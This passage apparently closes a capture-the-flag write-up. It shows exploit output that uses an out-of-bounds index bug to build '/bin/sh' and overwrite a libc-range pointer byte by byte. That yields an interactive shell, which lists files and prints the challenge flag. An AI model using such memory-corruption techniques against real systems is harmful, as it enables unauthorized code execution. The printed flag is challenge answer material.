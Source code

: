 ```
b'\nDEBUG: 0x55f3ffa3d2a4\nDone.\nThe amazing, cool, epic, astounding, astonishing, stunning, breathtaking, supercalifragilisticexpialidocious string is:\n/bin/***********\nWhat character would you like to edit? (enter in 15 to get a fresh pallette)'
b'\nWhat character should be in that index?'
b'\nDEBUG: 0x55f3ffa3d2a5\nDone.\nThe amazing, cool, epic, astounding, astonishing, stunning, breathtaking, supercalifragilisticexpialidocious string is:\n/bin/s**********\nWhat character would you like to edit? (enter in 15 to get a fresh pallette)'
b'\nWhat character should be in that index?'
b'\nDEBUG: 0x55f3ffa3d2a6\nDone.\nThe amazing, cool, epic, astounding, astonishing, stunning, breathtaking, supercalifragilisticexpialidocious string is:\n/bin/sh*********\nWhat character would you like to edit? (enter in 15 to get a fresh pallette)'
b'\nWhat character should be in that index?'
b'\x10'
b'\nDEBUG: 0x55f3ffa3d2a7\nDone.\nThe amazing, cool, epic, astounding, astonishing, stunning, breathtaking, supercalifragilisticexpialidocious string is:\n/bin/sh\nWhat character would you like to edit? (enter in 15 to get a fresh pallette)'
b'\nWhat character should be in that index?'
b'\xb4'
b'\nDEBUG: 0x7f678f084b28\nDone.\nThe amazing, cool, epic, astounding, astonishing, stunning, breathtaking, supercalifragilisticexpialidocious string is:\n/bin/sh\nWhat character would you like to edit? (enter in 15 to get a fresh pallette)'
b'\nWhat character should be in that index?'
b'\xee'
b'\nDEBUG: 0x7f678f084b29\nDone.\nThe amazing, cool, epic, astounding, astonishing, stunning, breathtaking, supercalifragilisticexpialidocious string is:\n/bin/sh\nWhat character would you like to edit? (enter in 15 to get a fresh pallette)'
b'\nWhat character should be in that index?'
b'\x8e'
b'\nDEBUG: 0x7f678f084b2a\nDone.\nThe amazing, cool, epic, astounding, astonishing, stunning, breathtaking, supercalifragilisticexpialidocious string is:\n/bin/sh\nWhat character would you like to edit? (enter in 15 to get a fresh pallette)'
b'\nWhat character should be in that index?'
b'g'
b'\nDEBUG: 0x7f678f084b2b\nDone.\nThe amazing, cool, epic, astounding, astonishing, stunning, breathtaking, supercalifragilisticexpialidocious string is:\n/bin/sh\nWhat character would you like to edit? (enter in 15 to get a fresh pallette)'
b'\nWhat character should be in that index?'
b'\x7f'
b'\nDEBUG: 0x7f678f084b2c\nDone.\nThe amazing, cool, epic, astounding, astonishing, stunning, breathtaking, supercalifragilisticexpialidocious string is:\n/bin/sh\nWhat character would you like to edit? (enter in 15 to get a fresh pallette)'
b'\nWhat character should be in that index?'
b'\nDEBUG: 0x7f678f084b2d\nDone.\nThe amazing, cool, epic, astounding, astonishing, stunning, breathtaking, supercalifragilisticexpialidocious string is:\n/bin/sh\nWhat character would you like to edit? (enter in 15 to get a fresh pallette)'
[*] Switching to interactive mode

$ ls
flag.txt
run
$ cat flag.txt
ictf{alw4ys_ch3ck_y0ur_1nd1c3s!_4e42c9f2}
$  

```

Thanks for reading!
